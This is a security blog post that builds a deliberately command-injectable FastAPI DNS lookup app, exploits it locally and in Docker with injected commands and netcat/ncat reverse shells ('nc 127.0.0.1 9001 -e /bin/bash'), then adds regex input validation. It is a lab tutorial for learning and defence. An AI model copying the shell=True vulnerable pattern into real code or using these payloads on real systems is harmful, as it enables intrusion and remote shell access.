








Making a Vulnerable Webapp
Published 27.07.2023 , Last Edited 31.07.2023Welcome to Part One in my “service-to-shell” series. I want to make a vulnerable webapp that I can scan with a custom nmap probe and exploit with a custom Metasploit module.
This post covers making the vulnerable webapp - not as exciting as a custom Metasploit module or as useful as an additional nmap banner scanner, but an essential part of the project. For making a vulnerable webapp, the first step is to pick the language (I went with Python), then the vulnerability (Command injection - it’s simple to write and understand), and finally the theme. I’ve done a little work on OSINT tools recently, so I thought that a simple DNS searcher API would be quick and easy.
Writing the App
After setting up a GitHub repo and cloning it locally, it’s time to start writing the app.
Python dependency management
I use a virtual environment for every project I do with Python. For this project I’m using Python 3.11.
1# make a virtual environment
2python3.11 -m venv .venv_dnssearcher
3# select the virtual environment
4source .venv_dnssearcher/bin/activate
5# install requirements
6python3.11 -m pip install -r requirements.txt
I don’t need or want any additional complexity with Poetry for managing requirements or environments, by the end of this project I expect everything to be Dockerized.
Actual Code
The actual code is pretty simple. We start by making a FastAPI app:
1from fastapi import FastAPI
2
3app = FastAPI()
Add some routes for commands that might be useful - a / route that accepts GET requests since it’s easy, and a /dns route that is susceptible to command injection:
1@app.get("/")
2async def root():
3 return {"message": "Working DNSSearcher"}
4
5@app.get("/dns")
6async def dns(domainname : str):
7 ret = subprocess.run(
8 f"nslookup {domainname}",
9 shell=True,
10 capture_output=True
11 )
12 return ret.stdout.decode("utf-8")
And now start the webapp from the terminal, in the project root:
1uvicorn dnssearcher.main:app --reload
Testing
Time to verify that the app actually works. We’ll start with a basic curl -v localhost:8000, which hits the / route defined eariler - it should return JSON verifying that the DNSSearcher service is working:
1* Trying 127.0.0.1:8000...
2* Connected to localhost (127.0.0.1) port 8000 (#0)
3> GET / HTTP/1.1
4> Host: localhost:8000
5> User-Agent: curl/7.81.0
6> Accept: */*
7>
8* Mark bundle as not supporting multiuse
9< HTTP/1.1 200 OK
10< date: Sat, 29 Jul 2023 20:06:06 GMT
11< server: uvicorn
12< content-length: 33
13< content-type: application/json
14<
15* Connection #0 to host localhost left intact
16{"message":"Working DNSSearcher"}
The response is good - things are working! Time to try with some actual logic - this should get some kind of response with addresses.
FastAPI is really good at, well, making quick APIs. The function definition for the /dns route tells you exactly what needs to be passed to the API.
/dns expects a parameter of “domainname” with a type of string. Here’s the curl command curl localhost:8000/dns?domainname=google.com, and the response:
1"Server:\t\t10.157.0.2\nAddress:\t10.157.0.2#53\n\nNon-authoritative answer:\nName:\tgoogle.com\nAddress: 142.251.4.100\nName:\tgoogle.com\nAddress: 142.251
2.4.102\nName:\tgoogle.com\nAddress: 142.251.4.139\nName:\tgoogle.com\nAddress: 142.251.4.101\nName:\tgoogle.com\nAddress: 142.251.4.113\nName:\tgoogle.com\n
3Address: 142.251.4.138\nName:\tgoogle.com\nAddress: 2607:f8b0:4023:1407::64\nName:\tgoogle.com\nAddress: 2607:f8b0:4023:1407::8b\nName:\tgoogle.com\nAddress
4: 2607:f8b0:4023:1407::66\nName:\tgoogle.com\nAddress: 2607:f8b0:4023:1407::8a\n\n"
For usability, I’d like the newline characters to be applied. Since our response is surrounded by quotes and library we’re working with is “FastAPI”, I assume that the default response type is JSON, so none of the escaped characters are being interpreted. We can fix that by using a proper Response object and setting the type to text/plain:
1from fastapi import FastAPI, Response
2# same as before
3async def dns(domainname : str):
4 ret = subprocess.run(
5 f"nslookup {domainname}",
6 shell=True,
7 capture_output=True)
8 return Response(
9 content=ret.stdout.decode("utf-8"),
10 media_type="text/plain"
11 )
Now, a curl localhost:8000/dns?domainname=google.com is returning something legible:
1Server: 10.157.0.2
2Address: 10.157.0.2#53
3
4Non-authoritative answer:
5Name: google.com
6Address: 142.251.4.113
7...
Playing with FastAPI
FastAPI can do some automatic value conversions with function definitions that have type hinting. The following example is a little contrived, but I hope you get the gist.
Say you have an application that stores IP addresses as Integers instead of a String with 4 octets (Ex: 16843009 instead of 1.1.1.1) - maybe it stores a ton of IPs. At max length an IP address in octet form could be something like 123.123.123.123 - storing this as an array of 1-byte chars is 15 bytes (plus a NULL - 16), while storing an unsigned int is 4 bytes. That’s four times smaller if using ints than strings, so some applications might store data like this (Also I’m sure it’s faster to do IP address math on ints than strings, since bit masks are much easier to do with ints).
Some applications can also process IPs in their decimal form, not just in their octet form.
One I really like to bring up is ping. Microsoft Windows ping program, as well as many others, can read a decimal just as they’d read an octet-style address, so you can do something like ping -c 1 16843009 and get:
1PING 16843009 (1.1.1.1) 56(84) bytes of data.
264 bytes from 1.1.1.1: icmp_seq=1 ttl=58 time=16.9 ms
3
4--- 16843009 ping statistics ---
51 packets transmitted, 1 received, 0% packet loss, time 0ms
6rtt min/avg/max/mdev = 16.890/16.890/16.890/0.000 ms
What if we wanted to extend the dnssearcher functionality to deal with IPs that are in an integer representation? I’ll demo this with a simple ping route:
1@app.get("/ping")
2def ping(target):
3 logger.info(f"Target is type: {type(target)}")
4 logger.info(f"Target memory size is {target.__sizeof__()}")
5 logger.info(f"Ping {target}")
6 ret = subprocess.run(f"ping -c 1 {target}", shell=True, capture_output=True)
7 logger.info(f"Response status code: {ret.returncode}")
8 if ret.returncode:
9 logger.warn(f"stderr: {ret.stderr.decode('utf-8')}")
10 return Response(content=ret.stdout.decode("utf-8"), media_type="text/plain")
When I hit this endpoint with curl localhost:8000/ping?target=16843009, here are the server-side logs:
INFO:root:Target is type: <class 'str'>
INFO:root:Target memory size is 57
INFO:root:Ping 16843009
INFO:root:Response status code: 0
INFO: 127.0.0.1:55132 - "GET /ping?target=16843009 HTTP/1.1" 200 OK
We can see that the input is parsed as a string and that the memory size is 57 bytes (Not very important, but fun to know). By changing the function definition of ping, FastAPI can attempt to convert from one type to another:
1@app.get("/ping")
2def ping(target : int):
3 # same as before
Here is the server-side logs from this one change, called with the exact same curl localhost:8000/ping?target=16843009 command:
INFO:root:Target is type: <class 'int'>
INFO:root:Target memory size is 28
INFO:root:Ping 16843009
INFO:root:Response status code: 0
INFO: 127.0.0.1:49810 - "GET /ping?target=16843009 HTTP/1.1" 200 OK
There it is - type coercion. We can verify this works by trying to pass in an octet-styled IP address with curl -s localhost:8000/ping?target=1.1.1.1 - we’ll come back to this validation later:
1{
2 "detail": [
3 {
4 "type": "int_parsing",
5 "loc": [
6 "query",
7 "target"
8 ],
9 "msg": "Input should be a valid integer, unable to parse string as an integer",
10 "input": "1.1.1.1",
11 "url": "https://errors.pydantic.dev/2.1/v/int_parsing"
12 }
13 ]
14}
Injection
The app is working - time to see if it’s vulnerable and what exploitation looks like.
Checking for Command Injection
With the way the call to subprocess.run is being made, we should be able to just add a command to the end of the domainname input like curl localhost:8000/dns?domainname=google.com&&pwd and get a result:
1Server: 10.157.0.2
2Address: 10.157.0.2#53
3
4Non-authoritative answer:
5Name: google.com
6Address: 142.251.4.139
7...
8/home/connor
That’s my working directory - I didn’t properly escape or encode the &. Trying again with curl localhost:8000/dns?domainname=google.com%26%26pwd:
1Server: 10.157.0.2
2Address: 10.157.0.2#53
3
4Non-authoritative answer:
5Name: google.com
6Address: 142.251.4.101
7...
8/home/connor/git/dns_searcher/dnssearcher
This is the directory I started the program from - the pwd command successfully executes, and command injection is confirmed.
Interactive Access
I’d like interactive access (shell) since running one-off commands can be rough. My first thought is netcat.
nc
nc is the netcat implementation available by default on PopOS. I’ll be using nc to catch and throw a shell. Catching is simple with nc -lvnp 9001, explanation of the options below:
l- listenv- verbose, especially useful for troubleshooting failed shellsn- short for--nodns- does not resolve hostnames via DNSp- sets the port number for netcat to bind to - in this case it’s “9001”
To throw a shell, I’ll use nc 127.0.0.1 9001. Typically you’d use -e or -c to execute a command that actually gets you a shell, but I want to test connectivity first.
1# Start the app
2./dnssearcher$ uvicorn main:app --reload
3# Start a listener
4nc -lvnp 9001
5# Test a connection
6curl localhost:8000/dns?domainname=google.com%26%26nc%20127.0.0.1%209001
Connection received! The web server doesn’t show a response, which makes sense - the subprocess will be executing until I kill the netcat session.

Time to test actually getting a shell through this method. I like to use Reverse Shell Generator for this to ensure I don’t mistype anything. The nc -e shell is:
1# normal
2nc 127.0.0.1 9001 -e /bin/bash
3# url encoded
4nc%20127.0.0.1%209001%20-e%20%2Fbin%2Fbash
Adding that onto the end of my curl command is simple:

The server returned a 200 instantly and there was no connection to the netcat listener. This means that the subprocess must have returned, but without reaching out to the netcat listener at all. Let’s update the app with a little debugging info:
1import logging
2logger = logging.getLogger()
3logging.basicConfig(level=logging.INFO)
4# skip to dns
5@app.get("/dns")
6def dns(domainname: str):
7 logger.info(f"DNS Lookup for {domainname}")
8 ret = subprocess.run(
9 f"nslookup {domainname}",
10 shell=True,
11 capture_output=True
12 )
13 logger.info(f"Response status code: {ret.returncode}")
14 if ret.returncode:
15 logger.warn(f"stderr: {ret.stderr.decode('utf-8')}")
16 return Response(content=ret.stdout.decode("utf-8"), media_type="text/plain")
I added some new debug statements to the program. Now I get notices on what the GET parameters actually look like, check the subprocess exit code, and print out the subprocess stderr field if there is a non-zero return. Uvicorn reloads the app and I try again:

The additional logging told me exactly what I needed - Invalid option. I checked the man page for nc and found that there is no -e or -c. For those features I’ll need ncat, a netcat implementation from the nmap team.
ncat
Installing ncat is easy - sudo apt install ncat. Using ncat instead of nc is equally easy, just change “nc” to “ncat” in the callback command. The fix is instant:

If I’m exploiting a machine though, it is more likely the machine will have the BSD nc than the nmap ncat, so this is really just a proof of the vulnerability being exploitable in this case.
I also tried the “Python3 #2” shell from Revshells, which got a nicish looking prompt with a working directory. In the image below, you can see the process tree starting from my tmux session - I think the chain from uvicorn -> python -> sh -> python3 -> bash is interesting.

Dockerize
I think it is more realistic to try exploiting a Dockerized Python application than a Python program running on bare metal, so I’ve also set up a Dockerfile:
1# using python3.11-slim since it's popular and (i think) based on Buster
2FROM python:3.11-slim
3# Make a directory /app
4RUN mkdir /app
5# Set the working directory to /app
6WORKDIR /app
7# Expose port 8000
8EXPOSE 8000
9# Install required system packages (nslookup)
10RUN apt-get update && apt-get install -y dnsutils
11# Copy the current directory contents into the container at /app
12COPY ./requirements.txt /app/requirements.txt
13# Install any needed packages specified in requirements.txt
14RUN pip install -r /app/requirements.txt
15# Copy the app
16COPY ./main.py /app/main.py
17# Run main.py when the container launches
18CMD ["uvicorn", "main:app", "--host", "", "--port", "8000"]
There’s not much to talk about with this Dockerfile. One thing I’d like to mention is: I know that my main.py is far more likely to change than my requirements.txt, so the main.py is close to the bottom - I don’t need anything more than FastAPI, but I might want to change debugging information later. Layering the Dockerfile like this keeps rebuild times quick as long as I only modify the main.py.
Exploiting the Dockerized version
Time to try exploiting the Dockerized version of dnssearcher. First, I’ll try a variant of the exploit I just threw at the bare-metal version, with the only adjustment being the callback IP:

nc is missing, and I bet ncat is missing too. I don’t know if the container has bash, but probably not. I’ll open a session inside the container to check:

Okay, we’ve got bash, and I know we’ve got Python. I’ll use Python3 #2 from revshells:

A successful exploit!
Trying to fix the Exploit
Going back to Playing with FastAPI, we know that we can do type enforcement on the input to the API. This is input validation, a fundamental piece of protecting against Command Injection. This can be done in at least two ways: A custom Pydantic model or regular expressions. I’m a fan of regular expressions, so we’ll use those. The goal is: ensure data being sent to nslookup is a valid domain name.
We can start by finding some good regex. I enjoy writing regular expressions, but for things like emails or domain names, I would want to find pre-existing regex and test it. This StackOverflow post has a good list of regular expressions for checking for domain names. Testing is simple - if it allows domain names and doesn’t allow the command injection, it passes.
# 1
^((?!-))(xn--)?[a-z0-9][a-z0-9-_]{0,61}[a-z0-9]{0,1}\.(xn--)?([a-z0-9\-]{1,61}|[a-z0-9-]{1,30}\.[a-z]{2,})$
# also works
# 2
^(((?!-))(xn--|_)?[a-z0-9-]{0,61}[a-z0-9]{1,1}\.)*(xn--)?([a-z0-9][a-z0-9\-]{0,60}|[a-z0-9-]{1,30}\.[a-z]{2,})$
# 3
^[a-zA-Z0-9][a-zA-Z0-9-_]{0,61}[a-zA-Z0-9]{0,1}\.([a-zA-Z]{1,6}|[a-zA-Z0-9-]{1,30}\.[a-zA-Z]{2,3})$
All three of the above regular expressions pass the test of working on domain names and failing commands. 1 and 2 fail on implementing them because Pydantic’s validator do not allow for look-ahead or look-behind. 3 it is.
Adding the pattern match to a FastAPI endpoint is relatively simple - modify the domainname parameter to have a default value of Query, use ... to mark it as required, and pattern to take the regular expression that validates input:
1from fastapi import FastAPI, Query, Response
2# new route to test
3@app.get("/dns2")
4def dns2(
5 domainname: str = Query(
6 ...,
7 pattern=r"^[a-zA-Z0-9][a-zA-Z0-9-_]{0,61}[a-zA-Z0-9]{0,1}\.([a-zA-Z]{1,6}|[a-zA-Z0-9-]{1,30}\.[a-zA-Z]{2,3})$",
8 ),
9):
10 logger.info(f"DNS lookup for {domainname}")
11 # basically DVWA but with nslookup instead of ping
12 ret = subprocess.run(f"nslookup {domainname}", shell=True, capture_output=True)
13 logger.info(f"Response status code: {ret.returncode}")
14 if ret.returncode:
15 logger.warn(f"stderr: {ret.stderr.decode('utf-8')}")
16 return Response(content=ret.stdout.decode("utf-8"), media_type="text/plain")
Now we run a test with curl -s localhost:8000/dns2?domainname=bing.com%26%26pwd | jq and check the response:
1{
2 "detail": [
3 {
4 "type": "string_pattern_mismatch",
5 "loc": [
6 "query",
7 "domainname"
8 ],
9 "msg": "String should match pattern '^[a-zA-Z0-9][a-zA-Z0-9-_]{0,61}[a-zA-Z0-9]{0,1}\\.([a-zA-Z]{1,6}|[a-zA-Z0-9-]{1,30}\\.[a-zA-Z]{2,3})$'",
10 "input": "bing.com&&pwd",
11 "ctx": {
12 "pattern": "^[a-zA-Z0-9][a-zA-Z0-9-_]{0,61}[a-zA-Z0-9]{0,1}\\.([a-zA-Z]{1,6}|[a-zA-Z0-9-]{1,30}\\.[a-zA-Z]{2,3})$"
13 },
14 "url": "https://errors.pydantic.dev/2.1/v/string_pattern_mismatch"
15 }
16 ]
17}
Regular expressions aren’t foolproof, but the only allowable characters in this regular expression are `[a-zA-Z0-9-_], which is pretty sanitized.
Wrap up
So ends part one. We’ve:
- Made a custom Python service
- Ensured it’s vulnerable to command injection
- Tested command injection on a local system and a Docker container
- Secured the application against command injection using built-in FastAPI methods
- Covered a cool Ping trick most people don’t know - next time you have someone’s terminal, run a quick
ping 16843009and surprise them.
In the next post, I’ll cover making an nmap match directive (and possibly a probe) that can be used for identifying custom services - in case the default nmap-service-probes file doesn’t have what you need.